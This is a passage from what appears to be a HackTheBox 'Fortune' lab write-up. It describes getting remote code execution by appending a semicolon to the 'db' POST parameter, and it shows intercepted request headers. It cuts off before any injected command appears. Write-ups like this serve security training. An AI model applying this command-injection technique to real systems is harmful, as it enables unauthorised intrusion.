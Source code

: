 ![](/images/hackthebox/fortune/3.png)
<br>
<br>
![](/images/hackthebox/fortune/4.png)
<br> On `https://fortune.htb` we get a handshake error, this probably means that we need a client certificate.
![](/images/hackthebox/fortune/5.png)
<hr>
## RCE, Client Certificate Generation
<br> Back to `http://fortune.htb` I intercepted the request with burp and there was only one parameter in the POST request called `db`, after trying some different things I could get `RCE` by appending a semi-colon `;` :
<br> Request :
```
POST /select HTTP/1.1
Host: fortune.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://fortune.htb/
```